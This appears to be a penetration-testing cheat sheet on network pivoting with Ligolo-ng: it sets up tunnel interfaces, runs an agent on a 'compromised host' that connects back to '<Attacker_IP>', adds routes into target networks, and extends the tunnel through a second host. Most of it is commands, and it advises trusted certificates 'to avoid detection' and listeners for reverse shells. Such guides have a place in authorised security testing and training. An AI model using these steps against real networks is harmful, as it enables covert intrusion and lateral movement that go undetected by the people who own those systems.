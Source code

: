
### Steps

#### 1. Agent Acquisition

- Download the correct Ligolo-ng agent binary for the compromised host's OS from the official GitHub releases.
- Transfer the agent binary to the compromised host.

#### 2. Proxy Initialization (Attacker Machine)

**Create TUN Interface:**

```bash
sudo ip tuntap add user $USER mode tun ligolo
sudo ip link set ligolo up
```

**Start Ligolo-proxy:**

- Lab Environment (Self-Signed):

```bash
ligolo-proxy -selfcert
```

- Production/Realistic Test (Trusted CA):

```bash
ligolo-proxy -certfile <cert.pem> -keyfile <key.pem>
```

_(Replace `<cert.pem>` and `<key.pem>` with your certificate and key file paths.)_

#### 3. Agent Connection (Compromised Host)

**Execute Agent:**

```bash
./agent -connect <Attacker_IP>:11601 -ignore-cert
```

_(Use `-ignore-cert` ONLY with self-signed certificates. Replace `<Attacker_IP>` with your attacker machine's IP.)_

#### 4. Tunnel Establishment (Attacker Machine)

**Ligolo-proxy Session:**

- Use the Ligolo-proxy command-line interface to select the active agent session.

**Routing Configuration:**

```bash
sudo ip route add <Target_Network_CIDR> dev ligolo
```

_(Replace `<Target_Network_CIDR>` with the target network's CIDR notation, e.g., `192.168.1.0/24`.)_

**Start Tunnel:**

- Within the Ligolo-proxy session, type:

```bash
start
```

#### 5. Verification and Usage (Attacker Machine)

- Use tools like Nmap, Metasploit, or any other network tool to interact with the target network as if you were directly connected.

#### 6. Advanced (Double Pivoting)

**Second TUN:**

```bash
sudo ip tuntap add user $USER mode tun ligolo-double
sudo ip link set ligolo-double up
```

**Listener Forwarding:**

```bash
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

**Second Agent:**

- Execute the agent on the next compromised host, connecting to the first compromised host's forwarded port.

**Second Route:**

```bash
sudo ip route add <Second_Target_Network_CIDR> dev ligolo-double
```

---

### 🔐 Key Considerations

- **Certificates:** Use trusted certificates for real-world scenarios to avoid detection.
- **Listeners:** Ensure proper listeners are set for reverse shells and file transfers.
- **Routing:** Verify correct routing configurations to avoid connectivity issues.
- **Environment Variables:** Using `$USER` makes the TUN interface creation more portable.
- **CIDR Notation:** Recommends using CIDR notation for network routes, which is standard practice.
- **Safety:** Clearly explains when to use the `-ignore-cert` flag.
